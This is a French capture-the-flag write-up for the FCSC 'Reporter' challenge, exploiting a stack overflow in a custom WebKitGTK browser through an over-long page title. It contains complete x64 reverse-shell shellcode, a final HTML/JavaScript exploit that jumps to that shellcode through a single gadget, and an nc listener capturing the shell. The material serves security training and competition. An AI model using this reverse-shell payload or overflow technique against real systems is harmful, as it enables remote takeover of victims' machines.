









# Reporter

- Catégorie: `pwn`
- Points: `499`
- Nombre de résolutions: `12`

**Énoncé: **

> Vous arrivez dans une nouvelle entreprise qui utilise un navigateur conçu en interne. Pouvez-vous obtenir un shell sur la machine de la personne qui vérifie les liens qu'on lui envoie ?
>
> http://challenges2.france-cybersecurity-challenge.fr:4009/


**Fichiers attachés: **

- `fcsc_browser`: Le binaire du navigateur.


**TL;DR**

- Recherche de la vulnérabilité

- Recherche de one-gadgets pour sauter sur notre shellcode

- Exécution d'un reverse shell

  

### Introduction

Rien qu'à l'énoncé, on prend rapidement peur: de l'exploitation de navigateur en CTF, ça risque d'être corsé...

Cependant une analyse préliminaire sur le binaire fourni, permet de nous rassurer:

```
$ file fcsc_browser 
fcsc_browser: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4d839403eed6b441d7eeb887c66fbd6bbc9a46df, not stripped

$ checksec ./fcsc_browser
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Le binaire est donc un `ELF x64`, linké dynamiquement et non strippé, qui ne comporte aucune protections, il n'y a même pas de `NX`, ce qui va probablement nous permettre d'exécuter notre propre shellcode.

En listant les librairies chargées dynamiquement, on s'aperçoit de certaines qui sont reconnaissables:

```
$ ldd fcsc_browser 
	...
	libwebkit2gtk-4.0.so.37 => /usr/lib/x86_64-linux-gnu/libwebkit2gtk-4.0.so.37 (0x00007f654980e000)
	...
	libjavascriptcoregtk-4.0.so.18 => /usr/lib/x86_64-linux-gnu/libjavascriptcoregtk-4.0.so.18 (0x00007f6547385000)
```

On peut déjà déterminer que le navigateur tourne sur le moteur `Webkit` qui est par exemple utilisé dans `Safari`. (https://webkit.org/).

Il utilise également le projet `WebkitGTK` permettant d'intégrer un navigateur dans des applications desktop avec GTK (https://webkitgtk.org/).

Le binaire semble être un navigateur comme un autre intégrant des fonctions basiques, et nous redirigeant par défaut sur le site de l'ANSSI:



### Recherche de la vulnérabilité

Ni une, ni deux on importe directement le binaire dans Ghidra pour percer ses secrets.

On se rend rapidement compte que ce navigateur a été développé en C++ car nous remarquons plusieurs entrées dans la section `Classes` de Ghidra:



Cette classe `Browser` a l'air d'être au cœur du navigateur car elle comporte les fonctionnalités de base que nous avons pu repérer sur le navigateur `create_new_tab`, `get_current_tab` etc...

Pour nous facilité la rétro-ingénierie, j'ai pris exemple sur un navigateur simple réalisé avec `WebKitGTK` afin de directement voir le code fourni par le développeur (source: https://github.com/aragua/gtkbrowser/blob/master/browser.c):

```c++

#include <gtk/gtk.h>
#include <webkit2/webkit2.h>

static void destroyWinCb(GtkWidget* widget, GtkWidget* window)
{
    gtk_main_quit();
}

static gboolean closeWebCb(WebKitWebView* webView, GtkWidget* window)
{
    gtk_widget_destroy(window);
    return TRUE;
}

int main(int argc, char* argv[])
{
    GtkWidget *win;
    WebKitWebView *web;
    gchar * url = "http://www.google.fr/";
 
    gtk_init(&argc, &argv);

    if (argc == 2)
        url = argv[1];

    win = gtk_window_new(GTK_WINDOW_TOPLEVEL);
    gtk_window_set_default_size(GTK_WINDOW(win), 1280, 720);

    web = WEBKIT_WEB_VIEW(webkit_web_view_new());

    gtk_container_add(GTK_CONTAINER(win), GTK_WIDGET(web));

    g_signal_connect(win, "destroy", G_CALLBACK(destroyWinCb), NULL);
    g_signal_connect(web, "close", G_CALLBACK(closeWebCb), win);

    webkit_web_view_load_uri(web, url);

    gtk_widget_grab_focus(GTK_WIDGET(web));

    gtk_widget_show_all(win);

    gtk_main();

    return 0;
}
```

Le code semble donc relativement simple. Le système de "signaux" est utilisé pour la gestion des événements, avec appel d'un callback lorsque l'événement est réalisé.

Afin d'être plus efficace dans la recherche de la vulnérabilité, au vu du contexte du challenge nous pouvons émettre quelques hypothèses:

- La vulnérabilité ne se situe pas au niveau du moteur (WebKit)
- La vulnérabilité doit être présente dans les différentes fonctionnalités offertes par le navigateur
- L'absence de la protection de `Stack Canary` semble indiquer qu'il doit probablement s'agit d'un `buffer overflow` sur la pile.

Avec ces hypothèses en tête, nous pouvons commencer à chercher la vulnérabilité!

Remarque: Sur ce type de challenge où la vulnérabilité est présente dans la partie "fonctionnalités", il est fréquent qu'une fonction en `C++` soit directement exposée via une API avec laquelle on peut interagir directement depuis le JavaScript, cependant ce n'est pas le cas ici.

Une technique pour être plus efficace dans la recherche, est de directement aller dans la `GOT` (https://en.wikipedia.org/wiki/Global_Offset_Table) (section `.got.plt` dans Ghidra) et de repérer d’éventuelles fonctions potentiellement dangereuses comme `strcpy`, `strcat`, `memcpy`, `sprintf` etc...

Nous pouvons ensuite regarder dans les références croisées quelle fonction appelle la fonction en question, et vérifier si l'on contrôle la donnée "source".

On trouve `memcpy` qui semble être appelée 3 fois dans une fonction `addBrowser` probablement réalisée par le développeur:



Voici la fonction `addBrowser` en question:



La décompilation produite par Ghidra semble assez illisible, voyons si le rendu est mieux sur Cutter avec l'intégration du décompilateur de Ghidra dans Cutter (`r2ghidra`):



C'est un peu mieux, ici 2 arguments sont détectés au lieu d'un sur Ghidra, et le code semble plus lisible.

Dans un premier temps, un buffer `buf` de 128 octets est initialisé à 0 avec le `memset`. Puis une chaîne au est `app_name` est copiée dans le buffer. Ensuite la chaîne `" - "` est copiée à la suite du buffer.

Enfin, une chaîne provenant du deuxième paramètre est ajoutée à la suite du buffer.

Cependant quelque chose nous interpelle: Le buffer `buf` a une taille finie de 128 octets, si nous pouvons contrôler la chaîne `source` avec une taille > 128 octets que se passe-t-il ?

Eh bien oui nous aurions bien un buffer overflow !

Afin de voir si l'on a le contrôle sur cette chaîne `source`, allons voir les références croisées de la fonction `addBrowser`:



La fonction `webview_title_change` semble appeler notre fonction, ça semble intéressant !

Le nom est assez explicite, nous n'avons pas besoin de perdre du temps à analyser cette méthode.

De plus en revenant sur la fenêtre du navigateur, le format du titre d'un onglet semble correspondre à ce que nous avons vu dans `addBrowser`:



Avec:

- `app_name` = "FCSC Browser"

- La chaîne `" - "`
- Le titre de la page web: `http://ssi.gouv.fr`

Essayons de trigger la vulnérabilité sans plus attendre!


### Exploitation de la vulnérabilité

Pour nos tests, on peut utiliser le module `http.server` de `python3` qui permet de setup un serveur web tout simple.

```
$ mkdir srv && cd srv
$ $ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On peut ensuite ajouter notre POC:

```html
<script>
	document.title = "A".repeat(1337);
</script>
```

Puis charger le navigateur dans `gdb-gef` pour voir ce qu'il se passe:

```
$ gdb-gef ../fcsc_browser 
Reading symbols from ../fcsc_browser...
(No debugging symbols found in ../fcsc_browser)
GEF for linux ready, type `gef' to start, `gef config' to configure
89 commands loaded for GDB 9.2 using Python engine 3.8
[*] 3 commands could not be loaded, run `gef missing` to know why.
gef➤  r http://localhost:8080/poc.html
```

Eeeet surprise:

```
$rax   : 0x00007fffffffce70  →  0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x4141414141414141 ("AAAAAAAA"?)
$rcx   : 0x0000000000612026  →  0x0007000700050005
$rdx   : 0xc6              
$rsp   : 0x00007fffffffce48  →  0x4141414141414141 ("AAAAAAAA"?)
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffcdb0  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rdi   : 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rip   : 0x0000000000407f82  →  <addBrowser(std::__cxx11::basic_string<char,+0> ret 
$r8    : 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r9    : 0x00007fffffffce00  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r10   : 0xffffffffffffff0c
$r11   : 0x00007fffffffd187  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$r12   : 0x4141414141414141 ("AAAAAAAA"?)
$r13   : 0x00007fffffffd110  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r14   : 0x00007fffffffd090  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r15   : 0x00000000009bc9b0  →  0x0000000040000002
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffce48│+0x0000: 0x4141414141414141	 ← $rsp
0x00007fffffffce50│+0x0008: 0x4141414141414141
0x00007fffffffce58│+0x0010: 0x4141414141414141
0x00007fffffffce60│+0x0018: 0x4141414141414141
0x00007fffffffce68│+0x0020: 0x4141414141414141
0x00007fffffffce70│+0x0028: 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $rax
0x00007fffffffce78│+0x0030: 0x00000000000000c6
0x00007fffffffce80│+0x0038: 0x00000000000000c6
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x407f7e <addBrowser(std::__cxx11::basic_string<char,+0> pop    rbx
     0x407f7f <addBrowser(std::__cxx11::basic_string<char,+0> pop    r12
     0x407f81 <addBrowser(std::__cxx11::basic_string<char,+0> pop    rbp
 →   0x407f82 <addBrowser(std::__cxx11::basic_string<char,+0> ret    
[!] Cannot disassemble from $PC
```

BOOM , on a bien un buffer overflow, et pouvons contrôler le flux d'exécution du binaire !


Après quelques tests notamment avec des générateurs de patterns comme: https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html, nous trouvons que l'offset au saved rip est de `137`.

Nous pouvons récupérer les gadgets fournis par le binaire avec `ROPgadget` et `ropper` (je prends toujours l'habitude d'essayer les deux aux cas où des gadgets présents dans l'un ne serait pas présents dans l'autre et vice-versa).

```
$ ROPgadget --binary fcsc_browser > ropgadget_gadgets
$ ropper --file ./fcsc_browser | sed -r "s/\x1B\[([0-9]{1,2}(;[0-9]{1,2})?)?[m|K]//g" > ropper_gadgets
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
```

Remarque: Le fait de piper `ropper` dans `sed` permet d'éliminer les caractères de formatage de `ropper` pour avoir un rendu lisible sous format texte pur.

Cependant ne nous emballons pas trop vite, après quelques essais bien que la `PIE` ne soit pas présente, l'adresse de notre `title` varie sur le tas et cela de façon assez aléatoire, nous ne pouvons donc pas directement jumper à l'adresse dans le tas.

Un autre problème que j'ai remarqué en faisant divers tests avec des gadgets est que nous ne pouvons pas rajouter de nullbytes dans la chaîne récupérée dans le titre. Nous ne pourrons pas donc faire appel à un gadget `call rsp` pour jumper sur ce qui suit l'adresse de retour.

Cela nous laisse une possibilité d'exploitation: Nous devons exploiter l'overflow en "one shot" avec un seul gadget nous permettant de jumper directement sur notre shellcode.

En regardant l'état des registres lors du crash obtenu précédemment, on observe que le registre `rax` pointe vers un pointeur de la chaîne que nous contrôlons:

```
$rax   : 0x00007fffffffce70  →  0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x4141414141414141 ("AAAAAAAA"?)
$rcx   : 0x0000000000612026  →  0x0007000700050005
$rdx   : 0xc6              
$rsp   : 0x00007fffffffce48  →  0x4141414141414141 ("AAAAAAAA"?)
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffcdb0  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rdi   : 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rip   : 0x0000000000407f82  →  <addBrowser(std::__cxx11::basic_string<char,+0> ret 
$r8    : 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r9    : 0x00007fffffffce00  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r10   : 0xffffffffffffff0c
$r11   : 0x00007fffffffd187  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$r12   : 0x4141414141414141 ("AAAAAAAA"?)
$r13   : 0x00007fffffffd110  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r14   : 0x00007fffffffd090  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r15   : 0x00000000009bc9b0  →  0x0000000040000002
```

Il nous faudrait donc un gadget du type `call qword ptr [rax]` ou `jmp qword ptr [rax]`.

Cependant, le titre que nous contrôlons est précédé par `FCSC Browser - ` qui n'est pas du code valide (que nous pouvons vérifier facilement dans gdb):

```
gef➤  x/s *$rax
0x94d380:	"FCSC Browser - ", 'A' <repeats 177 times>, "\200Ӕ"
gef➤  x/8i *$rax
   0x94d380:	rex.RX
   0x94d381:	rex.XB push r11
   0x94d383:	rex.XB and BYTE PTR [r10+0x72],al
   0x94d387:	outs   dx,DWORD PTR ds:[rsi]
   0x94d388:	ja     0x94d3fd
   0x94d38a:	gs jb  0x94d3ad
   0x94d38d:	sub    eax,0x41414120
   0x94d392:	rex.B
```

Nous devons donc trouver un moyen de jumper quelques octets après `[rax]`. 


### Recherche d'un one gadget

En cherchant un peu dans les gadgets fournis par `ROPgadget` et `ropper`, j'ai trouvé ce gadget qui semble complètement correspondre à ce que l'on veut faire: 

```
0x0000000000403e67: add byte ptr [rax], bl; jmp qword ptr [rax]; 
```

Cela va donc modifier `[rax]` de la façon suivante:

```
$rax   : 0x00007fffffffce70  →  0x00000000007a2e80 + X  →  "AAAAAAAAA[...]"
```

Et ensuite sauter à l'adresse pointée par `rax`!

`X` correspond au LSB de `rbx` que nous contrôlons, car `rbx` est directement récupéré sur la pile avant de sortir de la fonction `addBrowser`:



Nous avons maintenant tout ce qu'il nous faut. Étant donné le contexte du challenge, où nous devons envoyer une URL qui accédée par un bot, nous devons pouvoir exécuter un reverse shell directement vers chez nous.

J'ai repris un shellcode de mon github (https://github.com/voydstack/shellcoding/blob/master/x64/reverse-shell/reverse-shell.asm), et l'ai un peu modifié pour pallier au nullbyte présent à la fin de `/bin/sh`:

```assembly
bits 64
section .text
global _start

_start:
	
	; socket(AF_INET, SOCK_STREAM, 0)
	; (2, 1, 0)
	xor rax, rax
	mov rdx, rax
	mov al, 41
	mov rsi, rdx
	inc rsi
	mov rdi, rsi
	inc rdi

	syscall

	; connect(sockfd, &saddr, 0x10)
	mov rdi, rax
	mov al, 42
	push rdx
	push rdx
	mov byte [rsp], 0x2
	mov word [rsp + 2], 0xf00d ; PORT
	mov dword [rsp + 4], 0xdeadbeef ; ADRESSE IP
	mov rsi, rsp
	mov dl, 0x10

	syscall

	; dup2(clientfd, [0,1,2])
	xor rsi, rsi
	duplicate:
		mov al, 33
		syscall
		inc sil
		cmp sil, 0x2
		jle duplicate

	; execve("/bin/sh", NULL, NULL)
	jmp binsh

	shell:
	mov al, 0x3b
	xor rsi, rsi
	xor rdx, rdx
	pop rdi

	mov [rdi + 7], sil ; permet de ne pas avoir de nullbyte dans le shellcode

	syscall

	binsh:
		call shell
		db "/bin/shx"
```


Ce shellcode fait 101 octets, et il y a 15 octets à rajouter à `[rax]` pour obtenir le début de notre shellcode, nous devons donc faire en sorte que `bl = 15` pour sauter pile poil sur notre shellcode.

Voici l'exploit final:

```html
<script>
var title = '\x48\x31\xc0\x48\x89\xc2\xb0\x29\x48\x89\xd6\x48\xff\xc6\x48\x89\xf7\x48\xff\xc7\x0f\x05\x48\x89\xc7\xb0\x2a\x52\x52\xc6\x04\x24\x02\x66\xc7\x44\x24\x02\x0d\xf0\xc7\x44\x24\x04\xef\xbe\xad\xde\x48\x89\xe6\xb2\x10\x0f\x05\x48\x31\xf6\xb0\x21\x0f\x05\x40\xfe\xc6\x40\x80\xfe\x02\x7e\xf3\xeb\x0f\xb0\x3b\x48\x31\xf6\x48\x31\xd2\x5f\x40\x88\x77\x07\x0f\x05\xe8\xec\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x78';
title += '\x90'.repeat(137 - 8*3 - title.length);
title += '\x0f'.repeat(8); // rbx, bl = 0x0f : on ajuste le début de notre shellcode
title += '\xff'.repeat(8); // r12
title += '\xff'.repeat(8); // rbp
title += '\x67\x3e\x40'; // 0x403e67: add byte ptr [rax], bl; jmp qword ptr [rax]; 

document.title = title;
</script>
```

Remarque: on prendra soin de remplacer `\xef\xbe\xad\xde` et `\x0d\xf0` par notre adresse IP et Port respectivement.

On écoute sur le port spécifié dans le shellcode, on envoie l'URL sur le service, puis on attend patiemment notre shell!

```
$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on ns3049096.ip-151-80-29.eu 50082
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
cat flag
FCSC{da8089fd6e7a40288a64f88b6a1a8027457206dffbfb28a5c8489a4e1c866e08}
```



Merci à \J pour ce challenge très intéressant sur lequel j'ai pu obtenir le first blood, et qui s'est révélé être beaucoup moins compliqué que prévu avec les protections manquantes.

